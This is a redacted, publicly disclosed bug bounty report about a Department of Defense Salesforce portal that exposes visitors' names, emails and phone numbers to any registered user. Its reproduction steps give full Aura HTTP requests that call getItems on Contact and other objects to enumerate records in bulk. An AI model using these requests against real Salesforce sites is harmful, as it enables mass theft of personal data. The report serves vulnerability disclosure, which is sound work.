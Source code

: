 # ███ leaking PII of tour visitors (names, email addresses, phone numbers) via misconfigured record permissions

## Report Details
- **Report ID**: 2294930
- **URL**: https://hackerone.com/reports/2294930
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-12-22T03:08:41.886Z
- **Disclosed**: 2024-03-22T17:55:12.446Z

## Reporter
- **Username**: oxylis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Dear DoD team,

The ████████ is leaking a large amount of sensitive data, including **full names, email addresses and phone numbers**. These are accessible by any registered user, as there is no additional verification. 

Any registered user of the portal is able to gain access to records other users (most likely visitors using the platform to complete security checks).

The specific vulnerable objects presenting a risk are:

Contact
Account
AccountContactRelation

As the website states that over ████████ every year, the extent of this leak may be affecting hundreds of thousands of users.

████

Hope you find this report helpful - look forward to your feedback.

## Impact

Large-scale user PII leak.

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Navigate to █████
2. Append the link to ██████████
3. Register a new user, verify via email
4. Log into the portal (if not automatically logged in after following link in email and setting new password)
5. Capture a POST request to the █████ endpoint, such as one below (containing the aura.token). This will return only 2000 records - however note that Salesforce Id's are sequential and can be easily enumerated via the GetRecord Aura controller.


POST ███████?r=3&ui-comm-runtime-components-aura-components-siteforce-controller.PubliclyCacheableAttributeLoader.getComponentAttributes=1 HTTP/1.1
Host: ███
Cookie: ███
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/█████████ Firefox/119.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: ██████████t=1703212778793
X-Sfdc-Page-Scope-Id: ab32d6b8-b3fc-4612-8bc1-3b0c8163e8f0
X-Sfdc-Request-Id: 251200000054548e63
X-Sfdc-Page-Cache: 44256e663456d3d8
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 1336
Origin: █████████
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

message=%7B%22actions%22%3A%5B%7B%22id%22%3A%2283%3Ba%22%2C%22descriptor%22%3A%22serviceComponent%3A%2F%2Fui.comm.runtime.components.aura.components.siteforce.controller.PubliclyCacheableAttributeLoaderController%2FACTION%24getComponentAttributes%22%2C%22callingDescriptor%22%3A%22markup%3A%2F%2Fsiteforce%3ApageLoader%22%2C%22params%22%3A%7B%22viewOrThemeLayoutId%22%3A%228c568ef8-3954-4997-930c-542a81f9e8eb%22%2C%22publishedChangelistNum%22%3A61%2C%22audienceKey%22%3A%22cp38y0onxM9f4QchAW2Mkg%22%7D%2C%22version%22%3A%2259.0%22%2C%22storable%22%3Atrue%7D%5D%7D&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22Q0FGdjJNU2hrWnJiekVjWXdRVlJ4d08ySzBfZjVsY04wOG9fYlRpVWRXUEEyNDYuMTUuNS0zLjAuNA%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%22xUUH_isHmNQqCOJ9yNTV7A%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=%2F████%2Fs%2F%3Ft%3D1703212778793&aura.token=█████..█████████


6. Modify the request as follows and send:

POST ███?r=3&ui-comm-runtime-components-aura-components-siteforce-controller.PubliclyCacheableAttributeLoader.getComponentAttributes=1 HTTP/1.1
Host: ██████████
Cookie: ██████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/██████ Firefox/119.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: ████t=1703212778793
X-Sfdc-Page-Scope-Id: ab32d6b8-b3fc-4612-8bc1-3b0c8163e8f0
X-Sfdc-Request-Id: 251200000054548e63
X-Sfdc-Page-Cache: 44256e663456d3d8
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 1141
Origin: █████████
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

message={"actions":[{"id":"123;a","descriptor":"███/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"Contact","layoutType":"FULL","pageSize":2000,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22Q0FGdjJNU2hrWnJiekVjWXdRVlJ4d08ySzBfZjVsY04wOG9fYlRpVWRXUEEyNDYuMTUuNS0zLjAuNA%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%22xUUH_isHmNQqCOJ9yNTV7A%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=%2F████████%2Fs%2F%3Ft%3D1703212778793&aura.token=█████████..██████████

7. Replace the value of the entityNameOrId field in the request body to test other objects (Account, AccountContactRelation, User etc)

## Suggested Mitigation/Remediation Actions
██████████
https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae
█████████



## Attachments
No attachments
